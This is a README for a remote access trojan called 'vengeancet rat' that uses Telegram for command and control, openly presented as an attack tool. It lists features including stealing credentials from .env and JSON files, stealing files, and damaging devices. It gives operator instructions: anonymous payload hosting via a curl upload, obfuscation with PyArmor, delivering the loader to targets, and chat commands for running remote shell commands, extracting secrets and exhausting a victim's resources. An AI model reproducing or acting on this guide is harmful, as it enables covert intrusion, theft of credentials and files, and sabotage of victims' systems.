

# vengeancet rat
Cross-platform Remote Access Trojan (RAT) with Telegram-based C2 and persistence mechanisms

## features
- Cross-platform (linux and android) I'm working on Windows support
- Credential theft from .env files and JSON configuration files
- File theft.
- device freezing and physical damage
- “Self-destruction wipes all traces of the intrusion

## how it work?
First, the operator proceeds through the preparation phase, which will be explained in greater detail later in this document
Once executed, the loader installs the dependencies required for Telegram communication, deploys the payload, and configures persistence mechanisms according to the detected environment. The payload then establishes communication with Telegram, through which it receives commands and instructions from the operator.


## usage


### Obtain the required Telegram credentials
Create a Telegram bot using [@BotFather](https://t.me/BotFather) and copy the API token
Create a group, add your bot, and retrieve the group id using the command /id
To obtain your personal Telegram user ID, start a conversation with [@userinfobot](https://t.me/userinfobot) and send `/start`


## host the payload anonymously
the service recommended for hosting the payload is the `beacon.host`
for upload file using curl
```curl
curl -sS https://beacon.host/v1/upload \
  -F "file=@./after_assembler/payload.py"
```
he returned url for the file
    
*waring*:We recommend hosting the payload and sending the loader to the target, obfuscating both with PyArmor, or sending only the payload

### using the assembler
The assembler.py file is responsible for assembling the payload
```shell
    python assembler.py --token="<your token obtained from BotFather
```
With the artifacts ready, deliver the loader to the target system

## Learning to Operate the C2
After joining the Telegram group using the collected ID, type /start to check whether any clients are connected
You should receive a unique key and the public IP address of each client

This key identifies the client on which the command will be executed. Commands follow this syntax:
```vengeancet cmd
/<command> <key> <additional arguments>
```
usage the key "all" for exec a command in all clients

### Command Reference

#### /start

Lists all currently active clients connected to the C2 infrastructure.

####  /exec <key> <command>

Executes a shell command on the specified client.

Example:
```cmd
/exec all ls
```

#### /stealing_keys <key>

Searches for and extracts .env files and JSON configuration files from the specified client.
```cmd
/stealing_file <key> <file>
```

Retrieves a specific file from the specified client.

#### /nuke <key>

Triggers an operation designed to overwhelm the target system's available resources, potentially causing severe performance degradation, process instability, and service disruption. Depending on resource exhaustion and operating-system behavior, the affected system may become unresponsive or require intervention to recover.

